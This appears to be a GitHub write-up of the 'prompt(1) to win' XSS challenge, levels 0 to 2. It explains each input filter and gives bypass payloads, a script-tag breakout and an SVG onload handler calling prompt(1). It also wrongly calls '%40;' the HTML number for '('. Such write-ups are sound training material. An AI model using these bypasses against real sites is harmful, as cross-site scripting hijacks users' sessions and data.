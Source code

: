 # prompt(1) to win
## 0 
**Solve**

```HTML
"><script>prompt(1)</script>

```
<img width="500" src="https://user-images.githubusercontent.com/68285613/147693465-ee262fcc-5b5f-4933-9d9a-e8ab593cf366.png">

<br>

## 1
**Explain**

```JavaScript
var stripTagsRE = /<\/?[^>]+>/gi;
input = input.replace(stripTagsRE, '');
```
Need to bypass the ```input.replace``` part.

<br>

**Readings**
- [What's the meaning of /gi in a regex? [duplicate]](https://stackoverflow.com/questions/27916055/whats-the-meaning-of-gi-in-a-regex/27916089)

<br>

**Solve**

*Remember to add a apace behind ```(1)```, so that it will be able to use prompt(1).*

```JavaScript
<svg onload=prompt(1) 
```

<img width="500" src="https://user-images.githubusercontent.com/68285613/147695438-906a1682-fb06-4ee3-98b5-bee70ab631a3.png">

<br>

## 2
**Explain**

```JavaScript
input = input.replace(/[=(]/g, '');
```

Need to bypass the ```input.replace``` part.

<br>

<img width="500" src="https://user-images.githubusercontent.com/68285613/147696395-81b4a6de-feea-496a-bb89-8b81e591fb87.png">

The ```=``` and ```( ``` are missing.

<br>

<img width="500" src="https://user-images.githubusercontent.com/68285613/147698634-ab20250b-d195-4650-b70c-38d75363a9db.png">

The ```<h1``` part will make prompt(1) appear on screen.

> ```%40;``` is HTML number of ```(```.

By altering the tag ```<h1``` into other tags, might ended up being able to use prompt(1).

<br>

**Readings**

- [w3schools - svg](https://www.w3schools.com/HTML/html5_svg.asp)

<br>

**Solve**

<img width="500" src="https://user-images.githubusercontent.com/68285613/147732371-b7f0aed4-0777-4b5a-a56f-d01af8214cbf.png">

SVG is XML based, which means that every element is available within the SVG DOM.
